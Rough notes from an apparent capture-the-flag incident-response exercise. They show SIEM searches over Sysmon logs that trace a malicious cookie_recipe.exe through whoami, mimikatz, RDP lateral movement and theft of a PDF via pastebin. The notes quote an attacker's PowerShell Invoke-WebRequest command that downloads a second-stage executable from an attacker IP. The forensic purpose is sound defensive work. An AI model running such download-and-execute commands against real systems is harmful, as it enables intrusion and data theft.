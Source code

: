 ProcessImage:C\:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe
--> prints cookie1 powershell at bottom

elfu-res-wks1 MSWinEventLog	1	Microsoft-Windows-Sysmon/Operational	2442	Tue Nov 19 05:24:15 2019	1	Microsoft-Windows-Sysmon	SYSTEM	User	Information	elfu-res-wks1	Process Create (rule: ProcessCreate)		Process Create:  RuleName:   UtcTime: 2019-11-19 13:24:15.595  ProcessGuid: {BA5C6BBB-ECFF-5DD3-0000-0010AE583300}  ProcessId: 1864  Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe  FileVersion: 10.0.14393.206 (rs1_release.160915-0644)  Description: Windows PowerShell  Product: Microsoft® Windows® Operating System  Company: Microsoft Corporation  OriginalFileName: PowerShell.EXE  CommandLine: C:\Windows\system32\cmd.exe /c "whoami "  CurrentDirectory: C:\Users\minty\Downloads\  User: ELFU-RES-WKS1\minty  LogonGuid: {BA5C6BBB-E7A5-5DD3-0000-002082670700}  LogonId: 0x76782  TerminalSessionId: 1  IntegrityLevel: High  Hashes: MD5=65D86C34814C02569E2AD53FD24E7F61  ParentProcessGuid: {BA5C6BBB-ECF2-5DD3-0000-001086363300}  ParentProcessId: 5256  ParentImage: C:\Users\minty\Downloads\cookie_recipe.exe  ParentCommandLine: "C:\Users\minty\Downloads\cookie_recipe.exe" 	20133

Scrolling up we have a webrequest run:
C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/cookie_recipe2.exe -OutFile cookie_recipe2.exe "

ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe OR "cookie_recipe.exe"

--> we have a webrequest [192.168.247.175:4444]!

but a better way:
ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe OR "cookie_recipe.exe" AND EventID:3

first command (scroll up): whoami
ParentProcessImage to the rescue!

ParentProcessImage:C\:\\Users\\minty\\Downloads\\cookie_recipe.exe OR "cookie_recipe.exe" OR "cookie_recipe2.exe" AND "IntegrityLevel: System"
C:\WebExService.exe

(scroll up)
C:\mimikatz.exe -> wrong, they downloaded it as cookie (urgh, silly attackers)

C:\cookie.exe

alabaster:
AccountName:minty OR AccountName:holly OR AccountName:DWM\-2 OR AccountName:DWM\-1 OR AccountName:alabaster AND (DestinationHostname:elfu\-res\-wks3 OR DestinationHostname:elfu\-res\-wks2)

Windows Event Id 4624 is generated when a user network logon occurs successfully. We can also filter on the attacker's IP using SourceNetworkAddress.

rdp



http OR https AND ProcessImage:C\:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe
--> prints out powershell cookie virus (cookie 2)


DestinationPort:3389 OR DestinationPort:3390 OR SourcePort:3389 OR SourcePort:3390

None of these times work. :(

LogonType:10
-->
06:04:28
Bingo!

First other login looks like:
ELFU-RES-WKS2,elfu-res-wks3,3

Cutoff time: 2019-11-19 05:24:15.000 --> start of initial callback session.
timestamp:["2019-11-19 05:24:15.000" TO "2020-01-01 00:00:00.000"]

TargetFilename:/.+\.pdf/

--->

C:\Users\alabaster\Desktop\super_secret_elfu_research.pdf

"C\:\\Users\\alabaster\\Desktop\\super_secret_elfu_research.pdf" OR "https://pastebin.com/post.php" OR ProcessId: 1232

